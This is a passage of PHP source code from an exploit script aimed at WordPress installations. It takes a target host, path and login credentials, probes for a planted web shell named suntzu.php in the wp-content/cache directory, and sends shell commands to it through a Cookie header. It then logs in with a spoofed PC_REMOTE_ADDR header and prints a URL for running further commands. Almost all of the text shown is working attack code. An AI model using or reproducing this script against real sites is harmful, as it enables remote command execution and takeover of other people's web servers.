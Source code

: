     }
    $host=$argv[1];
    $path=$argv[2];
    $username=$argv[3];
    $password=$argv[4];
    $cmd="";
    $port=80;
    $proxy="";
    $dict="";

    for ($i=5; $i<=$argc-1; $i++){
    $t=$argv[$i][0].$argv[$i][1];
    if (($t<>"-p") and ($t<>"-P") and ($t<>"-D"))
    {$cmd.=" ".$argv[$i];}
    if ($t=="-p")
    {
      $port=str_replace("-p","",$argv[$i]);
    }
    if ($t=="-P")
    {
      $proxy=str_replace("-P","",$argv[$i]);
    }
    if ($t=="-D")
    {
      $dict=str_replace("-D","",$argv[$i]);
    }
    }
    $cmd=urlencode($cmd);
    if (($path[0]<>'/') or ($path[strlen($path)-1]<>'/')) {echo 'Error... check the path!'; die;}
    if ($proxy=='') {$p=$path;} else {$p='http://'.$host.':'.$port.$path;}

    echo "step 0 -> check if suntzu.php is already installed...\r\n";
    $check=array("users/suntzu.php",
             "userlogins/suntzu.php"
             );
    for ($i=0; $i<=count($check)-1; $i++)
    {
      $packet="GET ".$p."wp-content/cache/".$check[$i]." HTTP/1.0\r\n";
      $packet.="Host: ".$host."\r\n";
      $packet.="Cookie: cmd=".$cmd."\r\n";
      $packet.="Connection: close\r\n\r\n";
      sendpacketii($packet);
      if (strstr($html,"*DL*"))
      {
        echo "Exploit succeeded...\r\n";$temp=explode("*DL*",$html);echo $temp[1]."\r\n";echo"Now you can launch commands through the followig url:\r\n http://".$host.$path."wp-content/cache/".$check[$i]."?cmd=ls%20-la";die;
      }
    }
    echo "step 1 -> Login ...\r\n";
    $data="log=".urlencode(trim($username));
    $data.="&pwd=".urlencode(trim($password));
    $data.="&rememberme=forever";
    $data.="&submit=".urlencode("Login »");
    $data.="&redirect_to=wp-admin";
    $packet="POST ".$p."wp-login.php HTTP/1.0\r\n";
    $packet.="PC_REMOTE_ADDR: 1.1.1.1\r\n"; //ip spoofing bug in vars.php ;)...
    $packet.="Content-Type: application/x-www-form-urlencoded\r\n";
    $packet.="Host: ".$host."\r\n";
    $packet.="Content-Length: ".strlen($data)."\r\n";
    $packet.="Connection: close\r\n\r\n";
    $packet.=$data;
    sendpacketii($packet);
    $temp=explode("Set-Cookie: ",$html);